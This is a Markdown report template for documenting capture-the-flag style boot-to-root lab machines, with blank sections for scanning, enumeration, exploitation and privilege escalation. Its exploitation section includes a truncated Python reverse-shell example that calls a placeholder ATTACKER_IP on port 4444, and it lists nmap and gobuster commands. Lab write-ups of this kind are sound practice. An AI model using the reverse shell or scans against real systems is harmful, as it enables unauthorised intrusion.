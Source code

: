# Boot-to-Root Report Template (Markdown)

> Use this template to document your boot-to-root machines. Copy it into a file named `REPORT.md` or `machine-name.md`.

---

## Metadata

* **Machine Name**:
* **Platform**: (e.g. TryHackMe / HackTheBox / VulnHub / Local VM)
* **IP / Host**:
* **Date**: YYYY-MM-DD
* **Author**: Roban (or your handle)
* **Difficulty Level**: Easy / Medium / Hard
* **Goal**: Boot-to-root / Capture the flag / Practice

---

## 1) Executive Summary

A short paragraph (2–4 lines) explaining how you obtained `user` and `root` and which main vulnerabilities were exploited.

---

## 2) Environment & Tools

* Host OS: (e.g. Kali Linux 2024.3)
* Tools used: (nmap, gobuster, burpsuite, linpeas, smbclient, etc.)

> **Tip:** include versions if relevant.

---

## 3) Initial Reconnaissance (Scanning)

### Commands executed

```bash
nmap -sC -sV -oN nmap_initial.txt <IP>
# or
nmap -p- -T4 -oN nmap_allports.txt <IP>
```

### Ports / Services Summary

| Port | Service | Version     | Notes                    |
| ---- | ------- | ----------- | ------------------------ |
| 22   | ssh     | OpenSSH 7.x | password login disabled? |
| 80   | http    | Apache 2.x  | homepage, /robots.txt    |

---

## 4) Enumeration

Detail each service you explored: purpose, commands, results, and your interpretation.

### HTTP

* **Command**: `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`
* **Interesting pages**: `/admin`, `/uploads`, `/robots.txt`
* **Screenshots**: (link or path to `screenshots/`)

### SMB / FTP / Others

* **SMB**: `smbclient -L //<IP>`
* **FTP**: anonymous? `ftp <IP>`

---

## 5) Exploitation (User Access)

Describe step-by-step how you gained a user shell:

* Vulnerability or vector (e.g. file upload, brute-force, injection)
* Exploit used (name, exploit-db link if applicable)
* Key commands and relevant output

```bash
# Example: PHP reverse shell upload
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("ATTACKER_IP",4444)); ...'
```

---

## 6) Post-Exploitation / Information Gathering

* Sensitive files found (e.g. `/home/user/.ssh/authorized_keys`, `/var/www/html/config.php`)
* Interesting users / groups
* `user.txt` flag location (omit actual flag if public)

---

## 7) Privilege Escalation (Root)

* Methods attempted (linpeas, sudo checks, SUID search, cron jobs)
* Final exploit or method (exact command + explanation)
* Final command to read `root.txt`:

```bash
cat /root/root.txt
```

---

## 8) Final Results / Flags

* `user.txt`: `path/to/user.txt` (or redacted flag)
* `root.txt`: `path/to/root.txt`

---

## 9) Timeline (Optional)

* YYYY-MM-DD HH:MM — Initial scan
* YYYY-MM-DD HH:MM — Found /uploads
* YYYY-MM-DD HH:MM — Got reverse shell

---

## 10) Lessons Learned & Notes

* What you would do differently
* Tools or techniques worth studying further
* Mistakes or pitfalls encountered

---

## 11) Evidence / Artifacts

* `screenshots/` — Screens or proof
* `pcaps/` — Network captures (if any)
* `exploits/` — Custom or modified scripts

> Add a minimal README per machine to explain reproduction steps if relevant.

---

## 12) References

* Links to CVEs, exploit-db, writeups, documentation used.

---

## Appendix (useful snippets)

Include here raw outputs (`nmap`, `sudo -l`, logs, etc.) while keeping sensitive info private.

---

